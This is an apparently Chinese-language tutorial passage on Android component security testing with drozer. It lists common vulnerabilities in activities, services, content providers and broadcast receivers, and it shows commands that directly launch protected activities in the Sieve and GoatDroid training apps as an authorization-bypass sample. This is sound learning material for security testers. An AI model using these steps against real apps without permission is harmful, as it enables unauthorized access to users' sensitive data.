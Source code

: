**content provider常见漏洞**<br>
SQL注入；目录遍历；敏感信息泄露

**service常见漏洞**<br>
拒绝服务；消息伪造；权限提升；劫持

### activity组件测试
#### 查看app所有activities
dz> run app.activity.info -a com.mwr.example.sieve
```
Package: com.mwr.example.sieve
  com.mwr.example.sieve.FileSelectActivity
    Permission: null
  com.mwr.example.sieve.MainLoginActivity
    Permission: null
  com.mwr.example.sieve.PWList
    Permission: null
```

#### activity常规漏洞测试
越权；拒绝服务；钓鱼；敏感信息泄露
- 某些activity需要认证后才能访问，直接调用如果能打开就存在越权漏洞；
- 打开某activity后，会造成app异常停止运行，造成拒绝服务；
- 打开某activity后，可能页面上存在敏感信息；
- 攻击者可以伪造一个activity钓鱼，诱骗用户输入账户密码；

注意：执行drozer命令的时候，手机当前的activity必须是drozer-agent的activity
```
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.MainLoginActivity
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.FileSelectActivity
```

漏洞样本1 - 越权
```
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
```

### broadcase receiver组件测试
权限绕过；拒绝服务；敏感信息泄露

把app类比为pc电脑，和PC机类似，app也有广播和接收广播信息的功能，app如果收到自己期望的广播包，则会处理该广播请求。同理，app可以向外广播信息。

在处理广播时，可能会遇到这类问题，app不校验广播请求的合法性和有效性，收到广播直接处理，这可能导致攻击者恶意构造广播包，可能造成app拒绝服务，敏感信息泄露，权限绕过等漏洞。

dz> run app.broadcast.info -a org.owasp.goatdroid.fourgoats -i
```
Package: org.owasp.goatdroid.fourgoats
  org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver
    Intent Filter:
      Actions:
        - org.owasp.goatdroid.fourgoats.SOCIAL_SMS
    Permission: null
```
